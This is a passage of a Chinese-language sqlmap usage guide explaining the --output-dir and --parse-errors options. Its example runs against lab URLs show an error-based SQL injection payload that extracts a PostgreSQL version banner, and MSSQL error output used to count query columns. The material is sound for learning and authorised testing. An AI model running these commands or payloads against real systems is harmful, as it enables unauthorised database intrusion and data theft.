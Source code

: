 针对 PostgreSQL 例子：

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors

[...]
[xx:xx:14] [INFO] fetching banner
[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:  invalid input syntax for type numeric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c202844656269616e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.php</b> on line <b>35</b>'
[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by
GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
[...] 
```

### 自定义输出的路径

参数：--output-dir

sqlmap 默认把 session 文件跟结果文件保存在 output 文件夹下，用此参数可自定义输出路径 例如：--output-dir=/tmp

### 从响应中获取 DBMS 的错误信息

参数：--parse-errors

有时目标没有关闭 DBMS 的报错，当数据库语句错误时，会输出错误语句，用词参数可以会显出错误信息。

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --parse-errors
[...]
[11:12:17] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] target URL appears to have 3 columns in query
[...] 
```
